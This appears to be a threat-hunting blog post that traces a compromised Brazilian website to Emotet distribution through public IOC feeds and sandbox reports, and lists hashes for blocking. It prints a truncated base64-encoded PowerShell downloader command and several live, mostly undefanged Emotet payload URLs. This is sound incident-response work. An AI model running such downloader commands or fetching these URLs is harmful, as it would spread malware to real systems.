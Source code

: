 ```yaml
---
layout: post
title:  "Threat Hunting Report"
description : The following are examples of how we perform Threat Hunting reports for our clients.
tags: Threat-Hunting, IOC, any-run, virus-total, hash, powershell
---
```


> Please provide what details you are able to gather about the following URL.
> This is something we might commonly be provided by a Crimeware client as part of a standard research and mitigation request. As with our service these requests can be pretty open 
> ended.
> With that in mind go as far as you feel is required to provide a sufficient response and highlight what might need to be included in a takedown to prospect our client or their
> customers. 
> Make sure to identify if the domain or related IOCS are hacked, or setup by a malicious actor and any valid files, hashes ETC.

```ruby
https://www.actacomunicacao.com.br/provisorio/docs/mq57mhq07gy/
```

To start off on any investigation I like to just do a quick Google search to see if anyone else has looked at the same thing. A good number of times this will help speed up an investigation, additionally it provides some already timestamped and openly available information that can be shared with a provider.

## A quick search of the provided URL returns multiple resources mentioning it exactly. The best part here is these are hits on the exact URL we are looking for.

![alt text](https://Rayferrufino.github.io/assets/pic1.png "Logo Title Text 1")

## I will highlight a few of these below:

```python
https://urlhaus.abuse.ch/url/428853/
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
https://paste.cryptolaemus.com/emotet/2020/08/12/emotet-malware-IoCs_08-12-20.html
```

It would appear that the URL is possibly tied to Emotet in some way. We continue to investigate some of these public posts on the URL and quickly can find a good number of doc files posted on Urlhaus tied to the exact url. 

```python
https://urlhaus.abuse.ch/url/428853/
https://urlhaus.abuse.ch/host/www.actacomunicacao.com.br/
```

![alt text](https://Rayferrufino.github.io/assets/pic2.png "Logo Title Text 1")

## Taking the earliest posted sample as an example we are given the following:

```python
File: FILE_ET5654085637AL.doc	
MD5 70fbdde86b9ae6a733975dc0980ea712
SHA-1 bae75e0727170969890336eb60f875267ddc0e35
SHA-256 0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13
```

## Searching for the file hash gets you yet another publicly posted blog mentioning it and how its tied to Emotet:

```ruby
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
```


## A quick check on Virustotal for the file also shows bit more about how the file might be used:

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/relations
```

![alt text](https://Rayferrufino.github.io/assets/pic3.png "Logo Title Text 1")

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/behavior/Lastline
```
![alt text](https://Rayferrufino.github.io/assets/pic4.png "Logo Title Text 1")

Reviewing the behavior and relationship tabs of the above report we see multiple URLs which might be an indication the file is either being dropped, reaching out to or somehow doing something with some of these.

## Online sandbox report:

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```
![alt text](https://Rayferrufino.github.io/assets/pic5.png "Logo Title Text 1")

From the report we see a call to PowerShell with a long string of characters followed by a new binary being spawned.

## This is a base64 encoded block in a request like the one below:
```ruby
>> powersheLL -e JABWAEgAVQBLAFEAZgBmAHcAPQAnAEEASABEAEoAQgByAGcAYgAnADsAWwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAIgBzAEUAYABDAFUAUgBJAGAAVABZAFAAYABSAG8AdABvAGAAYwBvAEwAIgAgAD0AIAAnAHQAbABzADEAMgAsACAAdABsAHMAMQAxACwAIAB0AGwAcwAnADsAJABXAFEAUQBNAEQAcwBnAGEAIAA9ACAAJwA3ADEAMgAnADsAJABRAEwAUABF….
```

#  Static code analysis:
The PowerShell code is acting as a downloader with a hardcoded list of URLs to iterate through.

![alt text](https://Rayferrufino.github.io/assets/pic6.png "Logo Title Text 1")

## This is also seen being executed in the call graph within the sandbox report.

![alt text](https://Rayferrufino.github.io/assets/pic7.png "Logo Title Text 1")


## Taking one of the URLs from the list: 
```ruby
http://iraniansk.com/wp-content/rm1q_q6x4_l5/
```
We can see it dropped a file during the sandbox run.


## Dropped file:

```ruby
File: rm1q_q6x4_l5 (identified as emotet)
MD5 16BF0F7A0D8008AEF4FDECCD749C7830
SHA1 6AB5FE9A8CF33D8043E7FF3CF6880CA8FB375D20
SHA256 12C0DEAECAFCF3A79D6EF2097E1F0CCC7F72017D7612F45DE8AFB99943FC4875
```
## Searching for this file we find multiple public reports as well:

```ruby
https://feodotracker.abuse.ch/browse/host/74.120.55.163/
```

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```


# Dynamic analysis:

## Submitting the dropped binary to a public sandbox further points to it being related to Emotet.

```ruby
https://capesandbox.com/submit/status/49440/
```
![alt text](https://Rayferrufino.github.io/assets/pic8.png "Logo Title Text 1")

![alt text](https://Rayferrufino.github.io/assets/pic9.png "Logo Title Text 1")


Additionally, we can confirm from the extracted config above that the PowerShell based request below and the immediate traffic after are related. 

![alt text](https://Rayferrufino.github.io/assets/pic10.png "Logo Title Text 1")

# Summary:

In summary the URL h[xx]ps://www.actacomunicacao.com.br/provisorio/docs/mq57mhq07gy/ appears it was for some period of time used as an Emotet distribution point. Reviewing the site and domain history it is likely this site was hacked, and the attacker used this compromised site to distribute their malware. Further research into how such a site would typically be used leads to a useful repository of data https://github.com/NavyTitanium/Misc-Malwares/tree/master/Emotet


## From the dropped documents we see they contained macro code that would be used to download the actual Emotet binary from URLs similar to the ones below:
```ruby
•	http://iraniansk.com/wp-content/rm1q_q6x4_l5/
•	http://kachetemarketing.com/cgi-bin/9yxsy_nq02_x2tv/
•	http://kinotheque.com/wp-includes/aidu_9c8_rrlp/
•	https://onyourleftracing.com/cgi-bin/fotes_4l_enxguwo/
•	http://slimgenemd.com/hqzfg/z_ya_xkjx5/
```


> Starting with the previous sandbox report describe what is going on, what malware is being dropped and what infrastructure might be important here. Include IOC data that would be useful in blocking and mitigating the relevant threats here. 

```ruby
File: "08142020_121494057.doc"  
MD5: 81FEF56212815515D22B62D3824EF5AF
SHA1: 8DDE045FA14ADC846B3B0F6302C8D8B249895641 
SHA256: 37CFFED69A1601C82615DE5B8C319B35B09C6B7A6F9E879AD9997309FBCC7775
https://app.any.run/tasks/24d633a6-a75f-490a-b091-cac7617e1c9b/
```
